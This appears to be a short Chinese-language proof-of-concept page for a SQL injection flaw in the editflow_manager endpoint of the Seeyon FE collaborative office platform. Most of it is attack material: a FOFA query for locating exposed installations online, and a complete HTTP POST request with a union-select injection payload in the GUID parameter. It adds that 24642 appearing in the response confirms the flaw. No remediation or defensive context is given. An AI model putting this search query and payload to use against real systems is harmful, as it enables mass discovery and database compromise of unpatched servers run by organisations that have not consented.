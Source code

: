 ## 致远互联FE协作办公平台editflow_manager存在sql注入漏洞

## fofa
```
title="FE协作办公平台" || body="li_plugins_download"
```


## poc
```
POST /sysform/003/editflow_manager.js%70 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Content-Length: 41
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

option=2&GUID=-1'+union+select+111*222--+
```
响应结果中包含24642证明存在漏洞

